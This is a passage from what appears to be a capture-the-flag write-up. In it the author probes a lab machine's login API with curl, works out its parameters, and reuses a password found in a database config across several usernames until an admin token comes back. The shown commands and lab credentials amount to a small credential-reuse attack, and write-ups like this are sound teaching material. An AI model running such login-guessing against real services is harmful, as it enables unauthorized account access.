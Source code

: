 None of the default or lazy creds seem to work, so I'll leave this for
now.

## Shell as root

### Get Users and Passwords from API

#### Find Arguments

I started with the API on 3000. I started experimenting with some POST
data. I want to log in, but I don't know what parameters the api is
looking for. If I send in the wrong parameters, it says "Bad Request":



    root@kali# curl http://10.10.10.137:3000/login -H "Content-Type: application/json" -d '{"user":"luke","password":"password"}'                                              
    Bad Request



When I try the combination of "username" and "password", it says
forbidden:



    root@kali# curl http://10.10.10.137:3000/login -H "Content-Type: application/json" -d '{"username":"luke","password":"password"}'
    Forbidden



That likely means I've got the right parameters.

#### Get Token

I've got a handful of usernames from the box so far, as well as one
password from the database config. I'll try the password from the config
with various usernames, and eventually find one that works:



    root@kali# curl http://10.10.10.137:3000/login -H "Content-Type: application/json" -d '{"username":"root","password":"Zk6heYCyv6ZE9Xcg"}'
    Forbidden
    root@kali# curl http://10.10.10.137:3000/login -H "Content-Type: application/json" -d '{"username":"chihiro","password":"Zk6heYCyv6ZE9Xcg"}'
    Forbidden
    root@kali# curl http://10.10.10.137:3000/login -H "Content-Type: application/json" -d '{"username":"derry","password":"Zk6heYCyv6ZE9Xcg"}'
    Forbidden
    root@kali# curl http://10.10.10.137:3000/login -H "Content-Type: application/json" -d '{"username":"admin","password":"Zk6heYCyv6ZE9Xcg"}'
    {"success":true,"message":"Authentication successful!","token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTU5MTU5OTk3LCJleHAiOjE1NTkyNDYzOTd9.a5kDgyES1Ot7qRzArdz2ehnvANv9yYdzZczG5EIISRs"}



